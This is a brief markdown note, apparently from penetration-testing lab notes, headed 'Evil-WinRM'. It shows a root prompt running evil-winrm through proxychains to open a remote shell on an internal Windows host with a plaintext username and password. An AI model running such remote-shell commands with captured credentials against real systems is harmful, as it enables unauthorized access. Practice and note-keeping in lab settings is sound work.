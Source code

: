 #### Evil-WinRM
#evil-winrm 
```bash
[root💀~/bugs_offshore/10.10.110.123] [10.10.14.39] [2023-08-08 17:53:45] 
 └─╼ # proxychains evil-winrm -i 172.16.1.201 -u joe -p Dev0ftheyear!
```